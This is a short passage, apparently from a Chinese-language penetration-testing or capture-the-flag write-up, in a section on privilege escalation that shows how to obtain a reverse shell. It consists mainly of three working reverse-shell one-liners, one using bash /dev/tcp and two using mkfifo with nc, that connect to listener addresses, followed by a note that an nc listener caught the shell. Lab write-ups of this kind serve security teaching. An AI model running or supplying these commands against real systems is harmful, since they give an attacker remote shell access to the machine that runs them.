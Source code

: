 # 三、权限提升

## 7.使用 bash 反弹 shell

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.16.2/443 0>%261
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 443 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

[![](assets/1703640271-0ba1813596196be6eb03639f9ee2619d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155756-7b19fc20-a3c4-1.png)

nc 进行监听

[![](assets/1703640271-039fdb69dc9a932b3364b7597e52d88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155808-8230e794-a3c4-1.png)

成功反弹 shell。
